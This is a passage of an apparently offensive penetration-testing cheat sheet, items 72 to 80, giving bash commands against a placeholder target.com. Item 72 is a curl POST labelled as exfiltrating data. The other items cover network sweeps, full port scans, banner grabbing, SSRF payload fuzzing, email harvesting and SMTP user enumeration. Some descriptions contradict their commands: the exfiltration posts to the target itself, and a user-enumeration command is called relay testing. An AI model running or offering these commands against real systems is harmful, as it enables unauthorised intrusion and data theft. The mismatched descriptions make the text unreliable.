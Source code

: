 72. **Data Exfiltration**
    ```bash
    curl -X POST -d @data.txt https://target.com/exfiltrate
    ```
    - **Action:** Exfiltrates data from `target.com` to a remote server.

73. **Network Mapping**
    ```bash
    nmap -sP target.com
    ```
    - **Action:** Maps the network to find other hosts connected to `target.com`.

74. **SSRF with Payloads**
    ```bash
    ffuf -u https://target.com/FUZZ -w payloads/ssrf.txt
    ```
    - **Action:** Uses `ffuf` with a list of SSRF payloads to test for SSRF vulnerabilities.

75. **Email Enumeration**
    ```bash
    theHarvester -d target.com -b google -l 500
    ```
    - **Action:** Uses `theHarvester` to enumerate email addresses associated with `target.com`.

76. **Email Verification**
    ```bash
    emailverify -e email@target.com
    ```
    - **Action:** Verifies the validity of email addresses associated with `target.com`.

77. **Open Port Scanning with Masscan**
    ```bash
    masscan -p1-65535 target.com
    ```
    - **Action:** Uses `masscan` to perform an open port scan on `target.com`.

78. **Banner Grabbing**
    ```bash
    nmap -sV --script=banner -p80,443 target.com
    ```
    - **Action:** Grabs service banners on `target.com` to identify software versions and potential vulnerabilities.

79. **SMTP Relay Testing**
    ```bash
    smtp-user-enum -M VRFY -u usernames.txt -t target.com
    ```
    - **Action:** Tests for SMTP relay vulnerabilities on `target.com`.

80. **Web Application Vulnerability Scanning**
    ```bash
    burpsuite
    ```
    - **Action:** Uses Burp Suite for comprehensive web application vulnerability scanning.
